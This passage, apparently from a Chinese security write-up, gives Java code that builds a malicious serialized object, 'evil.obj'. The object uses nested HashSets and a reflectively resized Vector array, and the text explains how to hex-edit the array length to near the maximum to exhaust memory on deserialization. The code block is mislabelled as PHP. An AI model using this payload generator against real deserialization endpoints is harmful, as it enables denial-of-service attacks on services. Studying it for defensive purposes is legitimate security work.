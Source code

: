 ```php
     Set<Object> s1 = root;
     Set<Object> s2 = new HashSet<>();
     for (int i = 0; i < 100; i++) {
       Set<Object> t1 = new HashSet<>();
       Set<Object> t2 = new HashSet<>();
       t1.add("foo"); // Make t1 unequal to t2
       s1.add(t1); s1.add(t2);
       s2.add(t1); s2.add(t2);
       s1 = t1;
       s2 = t2;
     }
     FileOutputStream FIS = null;
     try {
       FIS = new FileOutputStream("evil.obj");
     } catch (FileNotFoundException e) {
       e.printStackTrace();
     }
     try {
       ObjectOutputStream OOS = new ObjectOutputStream(FIS);
       Vector<Object> vec = generateObj(root);
       //如果想消耗更多内存可以多加包裹几层vector
       //vec = generateObj(vec);
       OOS.writeObject(vec);
     } catch (IOException e) {
       e.printStackTrace();
     } catch (NoSuchFieldException e) {
       e.printStackTrace();
     } catch (IllegalAccessException e) {
       e.printStackTrace();
     }
   }
   private static Vector<Object> generateObj(Object root) throws NoSuchFieldException, IllegalAccessException {
     Vector<Object> vec = new Vector<>();
     //为了后面方便修改替换，这里把vector的内部数组长度改为123
     Object[] objects1 = new Object[123];
     //设置数组的第一个元素为
     objects1[0]=root;
     Field elementData = vec.getClass().getDeclaredField("elementData");
     elementData.setAccessible(true);
     elementData.set(vec,objects1);
     return vec;
   }
 }
```

2.把Object数组的长度从123（16进制为00 00 00 7B）改成一个比较大的数（java最大允许的数组长度为MAX\_INT-2=2147483645，十六进制为7F FF FF FD）

通过HxD修改序列化数据中的数组长度，修改前：

![](https://shs3.b.qianxin.com/butian_public/fcd2f7efe26d9dfbef05dc64ec6d4f77f.jpg)
